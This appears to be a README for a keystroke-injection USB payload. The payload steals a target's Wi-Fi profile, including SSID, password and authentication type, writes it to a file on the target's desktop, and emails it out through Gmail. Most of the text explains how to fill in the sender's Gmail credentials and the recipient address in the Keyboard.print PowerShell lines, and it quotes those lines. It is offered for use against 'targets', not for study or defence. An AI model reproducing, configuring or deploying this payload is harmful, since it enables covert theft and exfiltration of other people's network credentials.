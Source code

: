 This payload Steals a targets Wifi profile. I.E. SSID, Passowrd and Authentication type.

Saves the profile to a text file named "Profile.txt" on the targets desktop.

Then sends the contents of Profile.txt (which contains the targets wifi profile) via a gmail to an email address of your choosing.

You must Edit the script to include a sender Gamils account creds as well as a recievers email address.

**Wifi Profile can only be sent via Gmail but can be received to any email.**  

You will need to edit the feilds for Senders and recievers email creditals.
For Senders Email go to line 101 or find this line 

<i><b> Keyboard.print("$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('CHANGE_THIS_GMAIL_ADDRESS@gmail.com', 'CHANGE_THIS_TO_EMAIL_PASSWORD')");</b></i> 

Here you will need to change the text that says <b><i>CHANGE_THIS_GMAIL_ADDRESS@gmail.com</i><b/> to the gmail address the Wifi Profile is to be sent from.

Then Change the text that says <i><b>CHANGE_THIS_TO_EMAIL_PASSWORD</b></i> to the corresponding password of the email address from above.

IE: <i><b>Keyboard.print("$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('johndoe.techjuvi@gmail.com', 'Password1234')")</b></i>

We will also need to specify a "from" email. Find this line of code 

<i><b>Keyboard.print("$ReportEmail.From = 'CHANGE_TO_GMAIL_ADDRESS'");</b></i> on line 109 and edit the text feild labeled
<i><b>CHANGE_TO_GMAIL_ADDRESS</b></i> to the same Gmail address from above (IE: senders Gmail).

The final change you'll need to make is to specify a Revievers Email. The line of code can be found on line 113 and looks like this: 

<i><b>Keyboard.print("$ReportEmail.To.Add('CHANGE_TO_Recievers_Email_ADDRESS')");</b></i>

Simply change the text that says <i><b>CHANGE_TO_Recievers_Email_ADDRESS</b></i> to the email address you want to recieve the Target's WIFI Profile .





